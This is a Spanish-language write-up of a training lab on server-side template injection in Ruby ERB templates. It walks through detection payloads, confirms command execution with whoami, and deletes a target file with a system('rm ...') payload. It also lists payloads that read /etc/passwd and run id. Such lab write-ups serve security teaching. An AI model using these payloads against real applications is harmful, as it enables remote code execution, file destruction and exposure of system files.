



# 💉 Inyección de plantillas del lado servidor (SSTI) en ERB

## 📄 Descripción del laboratorio

La aplicación utiliza **plantillas ERB (Embedded Ruby)** para renderizar contenido dinámico en el servidor.

Parte de ese contenido se construye concatenando directamente **input controlado por el usuario dentro de la plantilla**, sin sanitización ni escape.

Cuando la plantilla se evalúa, el motor **ERB interpreta cualquier sintaxis válida `<% %>` como código Ruby ejecutable**, lo que permite ejecutar comandos arbitrarios en el servidor.

El objetivo es:

* Ejecutar **código Ruby arbitrario** mediante SSTI.
* Eliminar el archivo:

```
/home/carlos/morale.txt
```

 

## 📚 Teoría

La **Server-Side Template Injection (SSTI)** ocurre cuando una aplicación inserta input del usuario dentro de una plantilla que luego es evaluada dinámicamente en el servidor.

En **ERB**, los delimitadores principales son:

```ruby
<% código %>
```

Ejecuta código Ruby sin mostrar salida.

```ruby
<%= expresión %>
```

Ejecuta código Ruby y muestra el resultado.

Si el input del usuario se inserta directamente en una plantilla ERB, es posible ejecutar Ruby arbitrario, por ejemplo:

```ruby
<%= 7 * 7 %>
<%= `whoami` %>
<%= system("id") %>
<%= File.read("/etc/passwd") %>
```

Esto implica **ejecución remota de código (RCE)**, ya que Ruby permite ejecutar comandos del sistema y manipular archivos.

 

## 📝 Práctica

### 🎯 Objetivo

Eliminar el archivo:

```
/home/carlos/morale.txt
```

mediante **SSTI**.

 

### 1️⃣ Identificación de SSTI

Se accede a la página de un producto y se observa un **mensaje dinámico generado en el servidor**.

<br>

Este mensaje parece contener contenido generado por la aplicación o por el input del usuario.

Se prueban distintos payloads de detección:

```ruby
{{7*7}}
${7*7}
<%= 7*7 %>
```

Resultados:

* `{{7*7}}` → no funciona.
* `${7*7}` → no funciona.
* `<%= 7*7 %>` → muestra **49**.

Esto confirma que existe **SSTI** y que el motor de plantillas utilizado es **ERB (Ruby)**.


 

### 2️⃣ Confirmación de ejecución de código

Se prueba un payload para verificar ejecución de comandos en el sistema:

```ruby
<%= `whoami` %>
```

La respuesta muestra el **usuario del sistema**, lo que confirma la ejecución remota de código en el servidor.

 

### 3️⃣ Explotación final

El laboratorio requiere eliminar un archivo específico, por lo que se utiliza un payload con `system()`:

```ruby
<%= system("rm /home/carlos/morale.txt") %>
```

Internamente, **ERB evalúa este código como Ruby real** y ejecuta el comando en el sistema operativo.

 

### 4️⃣ Ejecución

Se envía el payload en el **campo vulnerable**.

El comando `rm` no produce salida visible, pero el archivo es eliminado correctamente en el servidor.


 

### 5️⃣ Resultado final

El archivo:

```
/home/carlos/morale.txt
```

es eliminado con éxito mediante **Server-Side Template Injection**.

El laboratorio detecta la acción y se marca como **resuelto automáticamente**.
